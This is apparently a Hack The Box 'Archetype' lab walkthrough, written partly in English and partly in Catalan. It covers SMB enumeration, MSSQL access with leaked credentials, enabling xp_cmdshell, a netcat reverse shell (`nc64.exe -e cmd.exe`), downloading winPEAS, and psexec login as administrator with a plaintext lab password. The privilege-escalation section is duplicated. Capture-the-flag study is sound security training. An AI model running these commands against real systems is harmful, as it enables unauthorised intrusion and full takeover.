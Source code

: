 # Intro
| Dificulty | OS | Start Date | End Date | Help? |
|---|---|---|---|---|
| Very Easy | Windows | 26/05/2022 | 28/05/2022 | Yes |


# Thought process
1. Common enumeration
2. Check `smbclient`
3. Use `impacket`
4. Try to execute reverse shell and find the user flag.
5. Privilege Escalation to find root flag.


# smbclient
> Check Samba Server from Linux
```bash
$ smbclient -N -L @Target_IP
```
[-N]: Suppresess the normal password prompt from the client to the user
[-L]: List what services are aviable

There's a folder call it "backups" that probably has more information.

> Access Samba folder
```bash
$ smbclient -N \\\\@Target_IP\\folder_name
```

`get file_name` To download file to our local machine.
[//]: The file is located in the directory from which the connection was established.

In these file we can see that there's a usrname:password.

```
ARCHETYPE\ sql_svc
M3g4c0rp123
```


# impacket
Collection of Python classes for working with network protocols. 
Impacket  is focused on providing low-level programmatic access to the packets and for some protocols. 

Download [Link](https://github.com/SecureAuthCorp/impacket)

> Connect to MSSQL
```bash
~/HTB/impacket/examples
└─$ python3 mssqlclient.py username@Target_IP -windows-auth
```
[-windows-auth]: Use Windows Authentication (Default False)


# MSSQL Server
Exploration Journey Link:
[Link 1](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)
[Link 2](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

First check what role does the user has `SELECT is_srvrolemember('sysadmin');`
[//]: 1 = True

We can set up command execution because the user has admin privileges.

>  Set up System Command Execution
```sql 
SQL> EXEC sp_configure 'show advanced options', 1; — priv  
SQL> RECONFIGURE; — priv 
SQL> sp_configure;
SQL> EXEC sp_configure 'xp_cmdshell', 1; — priv  
SQL> RECONFIGURE; — priv
```
[//]: Found in Link 2
[- priv]: Administrator privileges need it.

Now the server permits system commands.

> Test System Commands Execution
```SQL
SQL> xp_cmdshell "whoami";
```


# Reverse Shell
Now, attempt to get stable reverse shell. 
Use `nc64.exe` to execute interactive `cmd.exe` process on our listening port.
Download [Link](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------)

> Simple HTTP server
```bash
$ sudo python3 -m http.server 80
```

> Netcat Listener
```bash
$ sudo nc -lvnp 443
```
[netcat]: Read and Write data in the network.
[-l]: Listen incoming connection
[-v]: Verbose output
[-n]: Do not do DNS
[-p]: Specifies source port nc should use

Check the actual server directory. If the user doesn't have permission, change it.

> Current Server Directory
```sql
SQL> xp_cmdshell "powershell -c pwd";
```

In the current directory sql_svc does not have permission to execute things. 

> Change to user directory and execute Reverse shell
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://IP/nc64.exe -outfile nc64.exe"
```

Verify if  the simple Python HTTP server recibed the request

> Execute Reverse Shell
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe @IP 443"
```

Now look back to the listener to confirme that reverse shell is working.

The user flag is in the user's Desktop.

---

# Privilege Escalation
## winPEAS
Is Windows Local Privilege Escalation Vector tool .
Download [Link](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

Transfer winPEAS to the target machine using Python HTTP server.

> Simple HTTP Server
```bash
$ sudo python3 -m http.server 80
```

On the Target Machine, execute wget in order to download the program from the Local Machine. Use powershell to do this process.
```bash
powershell
wget http://@IP/winPEASx64.exe -outfile winPEASx64.exe
```
[//]: User must have permission in that directory

> Exectue winPEAS
```bash
PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe
```

Can observer that we have [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege), which is also vulnerable to [juicy potato exploit](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato).

sql_svc is a normal user so it's worth checking for frequently access files or executed commands. Check the Powershell history file.

````    
```
ConsoleHost_history.txt`




---

# Privilegie Escalation

Utilitzarem l'eina WinPeas. Primer descarreguem en local i despres la solicitem desde la màquina. 
(Continuar fent escolta en el port 80 amb python)
[Link descarrega](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)

Executar escolta en port 80 desde l'ubicació on està el winPEAS. Fer `wget` de l'arxiu

```powershell
wget http://10.10.14.123/winPEASx64.exe -outfile winPEASx64.exe
```
[//]: S'ha d'estar en un directori on l'usuari tingui permissos.

Executem el binari utilitzant la reverse shell
```powershell
.\winPEASx64.exe
```

Podem observat que hi ha `SeImpersonatePrivilege` [Link](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) i aquest es vulnerable a "[juicy potato exploit](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato)". Però abans mirem si hi ha arxius que puguin contindre passwords.

Com que 'sql_svc' es un usuari normal, podem mirar el equivalent al '.bashrc' de powershell.
```powershell
cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline
```

El fitxer conté la contrasenya de administrador.
administrator:MEGACORP_4dm1n!!

Ara podem executar `psexec.py` desde impacket per tenir una shell com Administrador.

```bash
$ python3 psexec.py administrator@Target_IP
```
![[Pasted image 20220528174919.png]]
La root flag es troba en el desktop de l'usuari










